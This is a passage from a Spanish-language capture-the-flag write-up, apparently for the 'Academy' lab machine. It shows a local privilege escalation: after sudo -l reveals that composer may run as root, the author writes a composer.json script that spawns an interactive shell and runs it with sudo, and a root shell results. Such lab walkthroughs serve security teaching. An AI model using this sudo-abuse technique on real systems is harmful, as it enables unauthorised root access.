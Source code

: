 ```bash
cry0l1t3@academy:/dev/shm$ su mrb3n
Password: 
$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
$ 
```

Nice, pues veamos para qué queremos ser el usuario `mrb3n` en el sistema...

Después de enumerar y no enumerar lo básico :P encontramos esto:

```bash
$ script /dev/null -c bash
Script started, file is /dev/null
mrb3n@academy:/dev/shm$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
mrb3n@academy:/dev/shm$ 
```

Nos indica que podemos ejecutar `/usr/bin/composer` con permisos de administrador indicándole `sudo` al inicio, pues busquemos como podemos explotar ese binario...

Si nos vamos al siempre confiable [GTFOBins](https://gtfobins.github.io/) (que tiene un gran compilado de binarios que pueden ser usados para saltarse algunos métodos de seguridad en el sistema), encontramos [composer](https://gtfobins.github.io/gtfobins/composer/) y una manera de obtener una Shell en el sistema:

* [GTFOBins exploiting composer bin - gtfobins.github.io/composer](https://gtfobins.github.io/gtfobins/composer/).

En la máquina escribimos:

```bash
mrb3n@academy:/dev/shm$ TF=$(mktemp -d)
mrb3n@academy:/dev/shm$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
mrb3n@academy:/dev/shm$ sudo /usr/bin/composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# id
uid=0(root) gid=0(root) groups=0(root)
#
```
